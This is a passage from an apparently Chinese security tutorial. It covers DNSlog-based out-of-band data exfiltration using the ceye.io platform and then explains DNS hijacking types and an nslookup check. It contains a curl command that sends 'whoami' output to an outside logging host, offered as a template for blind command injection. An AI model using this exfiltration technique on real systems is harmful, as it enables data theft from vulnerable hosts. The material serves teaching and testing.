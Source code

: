 （打码有点重，将就着看看。）

[![img](https://image.3001.net/images/20181130/1543563487_5c00e8df1c310.png!small)](https://image.3001.net/images/20181130/1543563487_5c00e8df1c310.png)

平台里面也提供了一些利用的payload：

[![img](https://image.3001.net/images/20181130/1543563501_5c00e8eddd43a.png!small)](https://image.3001.net/images/20181130/1543563501_5c00e8eddd43a.png)

先用自己的vps简单的演示一下：

比如：curl [http://ip.port.b182oj.ceye.io/`whoami`](http://ip.port.b182oj.ceye.io/%60whoami%60)

这个时候需要根据实际情况对payload进行替换，ip 、port、 Identifier 。

[![img](https://image.3001.net/images/20181130/1543563520_5c00e900241c7.png!small)](https://image.3001.net/images/20181130/1543563520_5c00e900241c7.png)

当然不止这种用法，比如SQL盲注，命令执行，SSRF。

具体参考以下链接：

> <https://www.cnblogs.com/afanti/p/8047530.html>
>
> <https://www.anquanke.com/post/id/98096>



### 4. DNS劫持

#### 手法

DNS劫持有这三种情况

1.错误域名解析到纠错导航页面，导航页面存在广告。判断方法:访问的域名是错误的，而且跳转的导航页面也是官方的，如电信的114，联通移网域名纠错导航页面。

2.错误域名解析到非正常页面，对错误的域名解析到导航页的基础上，有一定几率解析到一些恶意站点，**这些恶意站点通过判断你访问的目标HOST、URI、 referrer等来确定是否跳转广告页面**，这种情况就有可能导致跳转广告页面（域名输错）或者访问页面被加广告（页面加载时有些元素的域名错误而触发）这种劫持会对用户访问的目标HOST、URI、referrer等会进行判定来确定是否解析恶意站点地址，不易被发现。

3.直接将特点站点解析到恶意或者广告页面，这种情况比较恶劣，而且出现这种情况未必就是运营商所为，家里路由器被黑，或者系统被入侵，甚至运营商的某些节点被第三方恶意控制都有可能。具体情况要具体分析，这里就不展开了。

DNS劫持常见于使用自动的DNS地址，所以，不管有没有被劫持，尽量不要使用运营商默认的DNS。

![DNSæå¡å¨](http://homestatic.bigsec.com/image/article/yunyingshangjiechi03.png)

##### 第一种：

运行nslookup
如果你当前的DNS服务器正常工作，返回的结果应该是你自己的DNS服务器。随便解析一个网站，比如www.microsoft.com

应该返回的是正常的地址然后再解析一个不存在的网站，比如adfasdf.fljalfjsd.com.cn如果返回的结果是DNS request timed out.timeout was 2 seconds. 那么证明你的DNS没有被劫持如果返回的结果是一个IP地址，比如说网通的返回地址是123.xxx.xxx.xxx，那么证明你的DNS被劫持了。

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9u26m9sij20gb0ckdgr.jpg)



请检查以下设置：
